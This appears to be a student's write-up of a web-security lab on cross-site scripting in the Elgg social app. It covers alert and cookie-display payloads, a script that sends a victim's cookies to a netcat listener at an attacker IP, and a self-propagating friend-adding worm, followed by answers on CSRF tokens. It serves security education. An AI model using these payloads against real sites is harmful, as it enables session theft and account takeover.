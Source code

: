 # Tarefas para as semana 10 e 11

## Task 1: Posting a Malicious Message to Display an Alert Window

The goal in this task is to embed a JavaScript program in a profile, such that when another user views the profile, an alert window will be displayed when the program is executed. To achieve that, we clicked on the option to edit the profile and in the "About me" section, we added the code given in the description of the task: 

**<script>alert(’XSS’);</script>**

After that, from another user's profile, when we click in the Alice's profile, the one where we added the code above, we see a message in the form of a pop-up window shown below.

image

## Task 2: Posting a Malicious Message to Display Cookies

For this task, the goal is to embed a JavaScript program in a profile, such that when the user views its own profile, an alert window would appear with that user's cookies. To achieve that, we did a similar thing as the previous task, adding this code to the brief description:

**<script>alert(document.cookie);</script>**

After that, when we log into Alice's profile, on her profile page, a see a pop-up window with a message containing the cookies.

image

## Task 3: Stealing Cookies from the Victim’s Machine

For this task, the goal is to, instead of the the user being the only one to see the cookies, we want to send them to the attacker. For that, we changed the brief description with the follwing code:

**<script>document.write(’<img src=http://10.9.0.1:5555?c=’
                       + escape(document.cookie) + ’   >’);
</script>**

We can then see the cookies by doing the command *nc -lknv 5555*.

image

## Task 4: Becoming the Victim’s Friend

For this task the goal is to write a program that writtes an XSS worm that adds Samy as a friend to any other user that visits Samy's profile. For that, we started by understanding what happens when a friend request is sent. 

After analysing our information and the code that was given to us, we only needed to build the url that would be used to achieve the goal of our task and add an user as a friend when they visited Samy's profile, we gathered that Samy's id was 59 so, to achieve our goal, we added the follwing code to the "About me" section , in **Edit HTML** mode:

image

We then answered some questions:

**Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?** The lines 1 and 2 get the values of the __elgg_ts and __elgg_token variables and this values are used against Cross Site Request Forgeru attacks. This values change every time a page is loaded and because of that, they need to be accessed every time. <br>

**Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?** No, because if the application only provided the Editor mode, the attack will not be successful because this expecific mode adds some extra HTML and some symbols change.


